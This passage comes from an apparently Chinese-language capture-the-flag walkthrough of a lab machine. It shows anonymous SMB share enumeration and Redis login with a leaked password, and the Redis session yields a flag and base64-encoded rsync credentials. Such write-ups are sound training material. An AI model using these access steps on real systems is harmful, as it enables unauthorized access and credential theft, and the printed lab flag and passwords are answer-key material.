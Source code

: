 ![20240629222726](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240629222726.png)

可以看到有一项共享目录, 我们进行连接查看

```bash
root@ip-10-10-201-75:~/vulnnetinternal# smbclient -N  //10.10.54.130/shares
WARNING: The "syslog" option is deprecated
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Feb  2 09:20:09 2021
  ..                                  D        0  Tue Feb  2 09:28:11 2021
  temp                                D        0  Sat Feb  6 11:45:10 2021
  data                                D        0  Tue Feb  2 09:27:33 2021

		11309648 blocks of size 1024. 3276120 blocks available
```

我在这里枚举了一番这地就是告诉我一个 Flag 的地方啥也没有

## 6379 - Redis
本来不想试的, 但是已经没有可以利用的地方了, 就尝试了一下发现可以登陆, 那么说明 NFS 共享的目的仅仅只是为了泄露密码

```bash
root@ip-10-10-201-75:~# redis-cli -h 10.10.54.130
10.10.54.130:6379> keys *
(error) NOAUTH Authentication required.
10.10.54.130:6379> AUTH B65Hx562F@ggAZ@F
OK
10.10.54.130:6379> KEYS *
1) "marketlist"
2) "tmp"
3) "int"
4) "internal flag"
5) "authlist"
10.10.54.130:6379> GET internal flag
(error) ERR wrong number of arguments for 'get' command
10.10.54.130:6379> GET "internal flag"
"THM{ff8e518addbbddb74531a724236a8221}"
10.10.54.130:6379> GET maketlist
(nil)
10.10.54.130:6379> GET tmp
"temp dir..."
10.10.54.130:6379> GET int
"10 20 30 40 50"
10.10.54.130:6379> LRANGE  authlist 0 -1
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
4) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
```
